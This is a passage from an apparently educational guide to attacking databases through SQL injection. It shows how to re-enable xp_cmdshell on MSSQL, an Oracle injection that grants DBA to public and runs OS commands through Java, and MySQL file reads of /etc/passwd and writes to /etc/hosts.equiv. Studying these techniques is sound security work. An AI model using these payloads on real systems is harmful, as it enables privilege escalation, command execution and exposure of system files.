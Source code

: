 #### Dealing with Default Lockdown
If the web application's user account within the database is sufficiently high-privileged, it is possible to overcome these obstacles simply by reconfiguring the database. For example, if `xp_cmdshell` is disabled, it can be re-enabled with the `sp_configure` stored procedure. The following four lines of SQL do this:

```
EXECUTE sp_configure 'show advanced options', 1
RECONFIGURE WITH OVERRIDE
EXECUTE sp_configure 'xp_cmdshell', '1'
RECONFIGURE WITH OVERRIDE
```

At this point, `xp_cmdshell` is re-enabled and can be run with the usual command:

```
exec xp_cmdshell 'dir'
```

### Oracle
Oracle contains many built-in stored procedures that execute with DBA privileges and have been found to contain SQL injection flaws within the procedures themselves. A typical example of such a flaw existed in the default package `SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES` prior to july 2006 critical patch update. This can be exploited to escalate privileges by injecting the query `grant DBA to public` into the vulnerable field:

```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('INDX', 'SCH', 'TEXTINDEXMETHODS".ODCIIndexUtilCleanup(:p1); execute immediate ''declare pragma autonomous_transaction; begin execute immediate '''' grant dba to public''''; end;''; END;--','CTXSYS',1,'1',0) from dual
```

The Java abused OS command execution first exploits a flaw in `DBMS_JVM_EXP_PERMS.TEMP_JAVA_POLICY` to grant the current user the permission `java.io.filepermission`. The attack then executes a Java class (`oracle/aurora/util/Wrapper`) that runs an OS command, using `DBMS_JAVA.RUNJAVA`. For example:

```
DMBS_JAVA.RUNJAVA('oracle/aurora/util/Wrapper c:\\windows\\system32\\cmd.exe /c dir>c:\\OUT.LST')
```

More details can be found here:
- [Hacking Aurora](https://www.databasesecurity.com/HackingAurora.pdf)
- [NotSoSecure](https://www.notsesecure.com/folder2/2010/08/02/blackhat-2010/)

### MySQL
One example is the ability of any user with the `FILE_PRIV` permission to read and write to the filesystem. The `LOAD_FILE` command can be used to retrieve the contents of any file. For example:

```
select load_file('/etc/passwd')
```

The `SELECT ... INTO OUTFILE` command can be used to pipe the results of any query into a file. For example:

```
create table test (a varchar(200))
insert into test(a) values ('+ +')
select * from test into outfile '/etc/hosts.equiv'
```
